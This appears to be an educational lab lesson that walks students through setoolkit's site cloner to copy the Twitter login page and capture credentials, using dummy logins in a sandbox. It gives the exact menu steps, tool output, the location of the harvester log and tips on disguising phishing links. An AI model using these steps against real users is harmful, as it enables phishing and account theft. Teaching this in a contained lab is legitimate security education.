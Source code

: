 In the previous lessons you learned about what phishing is. This lesson will use a tool called setoolkit to create a fake cloned website and harvest their credentials.

Normally, the first thing we will do is to start the setoolkit program, which you can do  by typing './setoolkit' within the 'set' folder, in a hacker distro. But we have already done this for you.

You should see a list of different options that you can select from.  

Since we are going to be tricking the user into giving secretive information. We are going to be executing a `Social Engineering Attack`. Select option number `1`{{execute}}.  

Because we will be creating a fake cloned website, we will choose the `Website Attack Vectors` option by selecting option number  `2`{{execute}}.  

Using that fake cloned website, we will be attempting to steal the victims username and password (or credentials). So we will choose the `Credential Harvesting` attack type, which is option number `3`{{execute}}.  

We will be creating a site that looks and seems exactly like another website. Select the `Site Cloner` choice number `2`{{execute}}.  

__IP Address__
The IP address also known as the internet protocol address is a unique series of numbers that shows your device is either a host network or connected to a host network so you can browse and search the internet. Our computer is provided this IP address by the router and internet network we are connected to.  

The reason why we need to type in our IP address in setoolkit is because when the user types in their credentials and the username and password have been stolen the faked cloned website needs to send the credentials back to our computer. The only way to do that is by using our unique internet protocol identifier (IP address). Also our IP address will be hosting the cloned website so that is what the user will be connecting to.

The IP address we will be using the IP address of the webserver where the setoolkit is running. DON'T use localhost:8099 which we would use if we were testing it locally.  
In our case, since the instance is running within our learning environment, we will use the URL and specify that as the IP address. This includes the domain, port, host and environment information. To find out this URL, click on the Tab will says 'Hacker Website' and it will open a page in your local browser.

Copy the URL address that is displayed and paste it into a text editor like Notepad (in Windows) or TextEdit in Mac so you can delete the words "https://" and the last training forward slash ("/") at the end of the URL address you copied.
NOTE: YOUR URL MAY BE DIFFERENT, but it should look something like when you paste it `https://2886795365-8099-cykoria01.environments.katacoda.com/`. It should be changed to `2886795365-8099-cykoria01.environments.katacoda.com`
Now copy this URL and paste it into the setoolkit window where it asks for IP Address
NOTE: The reason we do the step of using a text editor to strip out the unneeded protocol ("https://") and trailing forward slash ("/") is because it is difficult to edit within the setoolkit window once the URL is pasted.

Press enter to continue.

Now you should be prompted with a text that talks about the website we will be cloning. Type in `https://twitter.com/login`{{execute}}. This is the website we will be cloning.

You will see a message like
`[*] Cloning the website: https://twitter.com/login
[*] This could take a little bit...

The best way to use this attack is if username and password form
fields are available. Regardless, this captures all POSTs on a website.
[*] You may need to copy /var/www/* into /var/www/html depending on where your directory structure is.
Press {return} if you understand what we're saying here.`

Press `enter` or `return`{{exectue}}

You will see a message like `[*] Apache is set to ON - everything will be placed in your web root directory of apache.
[*] Files will be written out to the root directory of apache.
[*] ALL files are within your Apache directory since you specified it to ON.
[!] Apache may be not running, do you want SET to start the process? [y/n]:`

Press `y`{{execute}} to start the `Apache` web server.

Now you will see something like `Apache webserver is set to ON. Copying over PHP file to the website.
Please note that all output from the harvester will be found under apache_dir/harvester_date.txt
Feel free to customize post.php in the /var/www/html directory
[*] All files have been copied to /var/www/html
[*] SET is now listening for incoming credentials. You can control-c out of this and completely exit SET at anytime and still keep the attack going.
[*] All files are located under the Apache web root directory: /var/www/html
[*] All fields captures will be displayed below.
[Credential Harvester is now listening below...]`

Leave the credential harvester running for now. We will come back to this later.
Now, let us pretend that you sent a phishing email to a target telling them to check out a cool new post/tweet and you gave them the fake link. You can go even to the extent of masking the IP or the link so that the link looks legitimate; like it is from twitter.com (For time purposes, we won't do this). Normally most people would click on it, especially if they trust you.

Now think of yourself as the one receiving the phishing email and you clicked on the link. To simulate this, click on the tab that reads `Hacker Website` (this will be the phishing website that a real user would get redirected to when they click on the phishing link). It will open up the page and show the cloned (fake) website. You should see a website that looks likes the exact same as the real http://www.twitter.com/login.
Note: Since it is possible that the login page may be localized in a language from where the webserver is hosted. You can click on translate if prompted to translate the page.
Type in a username and password. It can be anything. An example would be klms_student (username) and klmsR0x (password). It is advisable that for this learning purposes, you do not use your real twitter account username and/or password. Click on the button that says Login (or if translated it may say Register).

On the terminal window you should see the username and password that you typed in the browser displayed as shown below:
`('Array\n',)
('(\n',)
('    [session] => Array\n',)
('        (\n',)
('            [username_or_email] => klms_student\n',)
('            [password] => klmsR0x\n',)
('        )\n',)
('\n',)
`
This same information is also logged in a log file in the `/var/www/html` directory. That file is named with the timestamp when the log entry was made.
Type Ctrl-C on the terminal window to close the setoolkit program. You will get a notice though you are exiting the program, the social engineering credential harvester request is still running and logging as shown below.
`[*] Exiting the menu - note that everything is still running and logging under your web directory path: /var/www/html
{Press return to continue}`

Press return{{execute}} to continue.
Then type `exit`{{execute}} in the prompt `set:webattack>` to get out of the setoolkit tool.

In the command prompt, type `cd /var/www/html`{{execute}} to navigate to directory where the log files are.

Now go back to the `Terminal` window. Type `ls -la`{{execute}} and see that there is a harvester file with a new timestamp. E.g., `harvester_2020-01-08 21:39:55.714597.txt` The credentials we hacked will be in this file. You can read the contents of this file using the `cat` command. `cat` the harvester file with the latest timestamp. Once you `cat` that file, you should see something like with the credentials that got hacked in it.
`(
    [username_or_email] => klms_student
    [password] => klmsR0x
)`

You have learned how to successfully social engineer and hack someone!
